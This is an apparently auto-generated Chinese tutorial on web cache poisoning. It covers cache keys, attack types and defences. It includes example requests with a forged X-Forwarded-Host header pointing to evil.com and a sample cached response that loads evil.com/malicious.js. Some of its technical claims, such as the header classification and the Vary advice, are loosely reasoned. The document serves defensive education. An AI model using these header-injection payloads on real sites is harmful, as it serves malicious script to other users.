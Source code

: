 # Web缓存投毒攻击技术文档

## 1. 概述

### 1.1 定义
Web缓存投毒攻击（Web Cache Poisoning）是一种通过操纵Web缓存服务器或中间代理缓存，将恶意内容注入缓存并分发给其他用户的攻击方式。攻击者利用缓存机制的特性，诱使缓存服务器存储并分发恶意响应，从而影响大量用户。

### 1.2 背景
Web缓存是提升Web应用性能的重要手段，通过缓存静态或动态内容，减少服务器负载和响应时间。然而，缓存机制的不当配置或漏洞可能被攻击者利用，导致缓存投毒攻击。此类攻击可能导致用户被重定向到恶意网站、窃取用户会话、注入恶意脚本等严重后果。

## 2. 攻击原理

### 2.1 缓存机制
Web缓存通常基于HTTP请求的某些特征（如URL、请求头）来决定是否缓存响应。缓存服务器在接收到请求时，会检查是否已有对应的缓存内容。如果有，则直接返回缓存内容；如果没有，则向源服务器请求并缓存响应。

### 2.2 攻击流程
1. **识别缓存键**：攻击者首先需要识别缓存服务器用于决定是否缓存响应的键（Cache Key），通常是URL、请求头等。
2. **构造恶意请求**：攻击者构造包含恶意内容的请求，使得缓存服务器将恶意响应缓存。
3. **触发缓存**：攻击者通过某种方式触发缓存服务器缓存恶意响应。
4. **分发恶意内容**：其他用户访问相同资源时，缓存服务器返回恶意响应。

### 2.3 攻击条件
- **缓存键不完整**：缓存服务器未使用所有相关请求特征作为缓存键，导致攻击者可以构造不同请求但使用相同缓存键。
- **缓存污染**：缓存服务器未正确验证响应内容，导致恶意内容被缓存。
- **用户请求可控**：攻击者能够控制或预测用户请求的特征，如URL参数、请求头等。

## 3. 攻击分类

### 3.1 基于URL的缓存投毒
攻击者通过操纵URL参数或路径，使得缓存服务器缓存恶意响应。例如，攻击者构造包含恶意参数的URL，使得缓存服务器缓存该URL的响应。

```http
GET /index.php?param=<malicious_script> HTTP/1.1
Host: example.com
```

### 3.2 基于请求头的缓存投毒
攻击者通过操纵请求头，使得缓存服务器缓存恶意响应。例如，攻击者构造包含恶意`X-Forwarded-Host`头的请求，使得缓存服务器缓存该请求的响应。

```http
GET /index.php HTTP/1.1
Host: example.com
X-Forwarded-Host: evil.com
```

### 3.3 基于响应头的缓存投毒
攻击者通过操纵响应头，使得缓存服务器缓存恶意响应。例如，攻击者构造包含恶意`Location`头的响应，使得缓存服务器缓存该响应。

```http
HTTP/1.1 302 Found
Location: http://evil.com
```

### 3.4 基于缓存键注入的缓存投毒
攻击者通过注入额外的缓存键，使得缓存服务器缓存恶意响应。例如，攻击者构造包含恶意`X-Forwarded-For`头的请求，使得缓存服务器缓存该请求的响应。

```http
GET /index.php HTTP/1.1
Host: example.com
X-Forwarded-For: 127.0.0.1
```

## 4. 技术细节

### 4.1 缓存键识别
攻击者需要通过分析Web应用的缓存机制，识别缓存服务器使用的缓存键。常见的方法包括：
- **观察响应头**：检查响应头中的`Cache-Control`、`Vary`等字段，了解缓存策略。
- **测试请求特征**：通过修改URL参数、请求头等，观察缓存行为。

### 4.2 恶意请求构造
攻击者需要构造包含恶意内容的请求，使得缓存服务器缓存恶意响应。常见的恶意内容包括：
- **恶意脚本**：注入JavaScript代码，窃取用户会话或重定向用户。
- **恶意重定向**：注入`Location`头，将用户重定向到恶意网站。
- **恶意内容**：注入恶意HTML或CSS，影响用户界面或窃取信息。

### 4.3 缓存触发
攻击者需要通过某种方式触发缓存服务器缓存恶意响应。常见的方法包括：
- **高频请求**：通过高频请求，增加缓存命中的概率。
- **特定请求**：构造特定请求，使得缓存服务器缓存响应。

### 4.4 攻击示例
以下是一个基于请求头的缓存投毒攻击示例：

1. 攻击者构造包含恶意`X-Forwarded-Host`头的请求：

```http
GET /index.php HTTP/1.1
Host: example.com
X-Forwarded-Host: evil.com
```

2. 缓存服务器缓存该请求的响应：

```http
HTTP/1.1 200 OK
Content-Type: text/html
Cache-Control: public, max-age=3600

<html>
<head>
<script src="http://evil.com/malicious.js"></script>
</head>
<body>
...
</body>
</html>
```

3. 其他用户访问`/index.php`时，缓存服务器返回包含恶意脚本的响应。

## 5. 防御思路和建议

### 5.1 完整缓存键
确保缓存服务器使用所有相关请求特征作为缓存键，避免攻击者通过操纵部分请求特征进行缓存投毒。例如，使用`Vary`头指定缓存键：

```http
Vary: X-Forwarded-Host, User-Agent
```

### 5.2 缓存验证
缓存服务器应验证响应内容，避免缓存恶意响应。例如，检查响应头中的`Content-Type`、`Location`等字段，确保其合法。

### 5.3 缓存清理
定期清理缓存内容，避免恶意内容长期存在。例如，设置较短的缓存时间：

```http
Cache-Control: public, max-age=60
```

### 5.4 安全配置
确保Web应用和缓存服务器的安全配置，避免漏洞被利用。例如，禁用不必要的请求头、限制请求频率等。

### 5.5 安全测试
定期进行安全测试，发现并修复潜在的缓存投毒漏洞。例如，使用自动化工具扫描Web应用，识别缓存键不完整或缓存污染等问题。

## 6. 结论
Web缓存投毒攻击是一种严重的安全威胁，可能导致大量用户受到攻击。通过理解攻击原理、识别攻击条件、采取防御措施，可以有效降低此类攻击的风险。安全从业人员应加强对Web缓存机制的理解和配置，确保Web应用的安全性。

---

*文档生成时间: 2025-03-11 14:24:48*
